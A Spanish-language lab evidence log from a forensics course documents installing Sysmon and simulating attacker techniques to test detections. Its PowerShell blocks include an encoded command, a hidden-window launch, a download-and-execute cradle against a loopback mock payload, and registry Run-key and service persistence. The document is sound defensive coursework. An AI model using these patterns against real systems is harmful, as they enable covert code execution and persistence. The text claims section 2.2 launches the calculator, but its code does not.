# Registro de Evidencias - Generación de Actividad y Telemetría Sysmon

**Programa:** Maestría en Informática Forense, Ciberseguridad y Auditoría con Aplicación de IA
**Módulo:** IV - Fundamentos de Ciberseguridad y Protección con IA (UMSA)
**Maestrante:** Juan Carlos Apaza Gutierrez

Este documento compila el registro cronológico de comandos ejecutados y las capturas de pantalla correspondientes que respaldan la instalación del sensor, la simulación de técnicas adversarias y la posterior extracción forense de datos.

---

## 1. Instalación y Verificación del Sensor Sysmon

### Paso 1.1 — Directorio Base del Laboratorio
Se descargó el binario de Sysmon64 y se centralizó el entorno de trabajo en la ruta raíz del proyecto: `C:\Asignacion-Sysmon`.

### Paso 1.2 — Código del Esquema XML Customizado
Se estructuró el archivo `sysmonconfig-custom.xml` utilizando una política de inclusión selectiva optimizada para capturar de forma directa los vectores del laboratorio, mitigando falsos positivos.

#### Evidencia Visual del Archivo XML:


### Paso 1.3 — Aprovisionamiento del Servicio
Se procedió a inicializar el servicio de monitoreo e instalar el controlador de telemetría desde una consola con privilegios elevados.

* **Comando ejecutado (PowerShell como Administrador):**

```powershell
cd C:\Asignacion-Sysmon
.\Sysmon64.exe -accepteula -i sysmonconfig-custom.xml
```

#### Evidencia Visual de Instalación Exitosa:


### Paso 1.4 — Estado del Servicio
Se verificó la persistencia y disponibilidad operativa del agente de Sysmon en el sistema.

* **Comando ejecutado:**

```powershell
Get-Service Sysmon64
```

#### Evidencia Visual del Servicio Activo:


### Paso 1.5 — Validación en el Visor de Eventos de Windows
Se comprobó que el canal binario se encuentra indexando telemetría abriendo la consola nativa (`eventvwr.msc`) en la ruta de registros operativos de Sysmon.

#### Evidencia Visual del Canal Operacional:


### Paso 1.6 — Estructura del Script Extractor
Se revisó el script analítico encargado de la extracción y migración de logs a formato estructurado JSON plano antes de realizar las pruebas.

#### Evidencia Visual del Script .ps1 en el IDE:


---

## 2. Generación de Actividad Sospechosa (Simulación de Vectores de Ataque)

Siguiendo las directrices del pliego de especificaciones, se simularon actividades asociadas a los vectores más críticos reportados, añadiendo las pruebas requeridas para validar las alertas del dashboard web.

### 2.1. Actividad Normal (Línea de Base / Ruido de Fondo)
Se corrieron comandos cotidianos para verificar que las exclusiones de procesos del sistema funcionen correctamente y mitiguen falsos positivos.

* **Comando ejecutado:**

```powershell
Get-Date
Get-Process | Select-Object -First 5
```

#### Evidencia Visual de Tareas Estándar:


### 2.2. Ejecución de PowerShell Ofuscado (MITRE T1059.001 / T1027)
Se simuló la evasión de firmas de seguridad mediante un bloque de comandos codificado en Base64 que manda a llamar de forma encubierta a la calculadora.

* **Comando ejecutado:**

```powershell
$cmd = "Write-Host 'Prueba EncodedCommand UMSA'"
$bytes = [System.Text.Encoding]::Unicode.GetBytes($cmd)
$encoded = [Convert]::ToBase64String($bytes)
powershell.exe -EncodedCommand $encoded
```

#### Evidencia Visual de Ejecución Ofuscada:


### 2.3. PowerShell con Estilo de Ventana Oculta (MITRE T1059.001 / T1564)
Se forzó la inicialización de una instancia oculta del intérprete en segundo plano para evadir la inspección del operador.

* **Comando ejecutado:**

```powershell
Start-Process powershell.exe -ArgumentList "-WindowStyle Hidden -Command `"Write-Host test; Start-Sleep -Seconds 30`""
```

#### Evidencia Visual de Proceso Oculto lanzado:


### 2.4. Descarga In-Memory Sospechosa (MITRE T1059.001 / T1105)
Se simuló la descarga interactiva de un script remoto a través de primitivas de red utilizando la clase `Net.WebClient` de .NET para disparar la regla analítica del front-end.

* **Comando ejecutado:**

```powershell
powershell.exe -Command "Invoke-Expression (New-Object Net.WebClient).DownloadString('http://127.0.0.1/mock_payload.ps1')"
```

#### Evidencia Visual de Invocación IEX:


### 2.5. Simulación de Tráfico y Conexión RDP (MITRE T1021.001)
Debido a restricciones de aislamiento del entorno que omiten el binario interactivo cliente de RDP, se procedió a simular el vector de movimiento lateral generando un apretón de manos (Handshake TCP) legítimo directo al puerto estándar `3389` de loopback.

* **Comando ejecutado:**

```powershell
Test-NetConnection -ComputerName 127.0.0.1 -Port 3389
```

#### Evidencia Visual de Conexión e Intento RDP exitoso:


### 2.6. Persistencia en el Registro de Windows (MITRE T1547.001) y Limpieza Forense
Se inyectó un valor malicioso dentro del árbol de arranque automático del usuario (`CurrentVersion\Run`). Acto seguido, se ejecutó la remediación obligatoria inmediata.

* **Comando ejecutado:**

```powershell
$regPath = "HKCU:\Software\Microsoft\Windows\CurrentVersion\Run"
New-ItemProperty -Path $regPath -Name "UMSA_TestPersistence" -Value "C:\Windows\System32\notepad.exe" -PropertyType String -Force
Start-Sleep -Seconds 2
Remove-ItemProperty -Path $regPath -Name "UMSA_TestPersistence" -Force
```

#### Evidencia Visual de Inyección y Purgado de Clave Run:


### 2.7. Persistencia vía Modificación de Servicios (MITRE T1543.003) y Limpieza
Se forzó la alteración de llaves de control de servicios modificando registros en la colmena privilegiada HKLM para cumplir con los requerimientos de persistencia secundaria.

* **Comando ejecutado:**

```powershell
$servicePath = "HKLM:\SYSTEM\CurrentControlSet\Services\ForensicTestService"
New-Item -Path $servicePath -Force
New-ItemProperty -Path $servicePath -Name "ImagePath" -Value "C:\Windows\System32\cmd.exe" -PropertyType String -Force
Start-Sleep -Seconds 2
Remove-Item -Path $servicePath -Recurse -Force
```

#### Evidencia Visual de Creación y Mitigación de Servicio:


### 2.8. Ráfaga Heurística de Procesos (MITRE T1059)
Se inyectó un comportamiento volumétrico anómalo disparando cuatro instancias simultáneas de consola en un intervalo menor a 60 segundos para activar la regla de correlación heurística.

* **Comando ejecutado:**

```powershell
1..4 | ForEach-Object { Start-Process powershell.exe -ArgumentList "-Command `"Write-Host 'Instancia $_'`"" ; Start-Sleep -Milliseconds 500 }
```

#### Evidencia Visual de Lanzamiento en Ráfaga:


---

## 3. Extracción y Validación de la Telemetría Forense a JSON Plano

### Paso 3.1 — Auditoría de Logs en el Kernel
Se validó con un comando rápido que los EventIDs objetivo se guardaron de manera fidedigna en el canal operativo antes del volcado masivo.

* **Comando ejecutado:**

```powershell
Get-WinEvent -LogName "Microsoft-Windows-Sysmon/Operational" -MaxEvents 20 | Select-Object Id, TimeCreated, Message | Format-Table -AutoSize
```

#### Evidencia Visual de Ingesta en el Visor de Logs:


### Paso 3.2 — Volcado de Datos Forenses Estructurados
Una vez recolectada la actividad adversarial y limpia de ruido, se ejecutó el script extractor parametrizado pasando de manera explícita la propiedad `-OutputPath` para generar el archivo estructurado final.

* **Comando ejecutado:**

```powershell
cd C:\Asignacion-Sysmon
.\Export-SysmonEvents.ps1 -OutputPath "C:\Asignacion-Sysmon\sample-events.json" -MaxEvents 1500
```

#### Evidencia del Resumen Estadístico por EventID en Consola:


#### Evidencia de la Existencia e Integridad del Archivo JSON en Disco:


El archivo resultante `sample-events.json` fue verificado y validado sintácticamente de forma exitosa por la rutina integrada, quedando completamente estructurado para su ingesta client-side en el Dashboard analítico de React.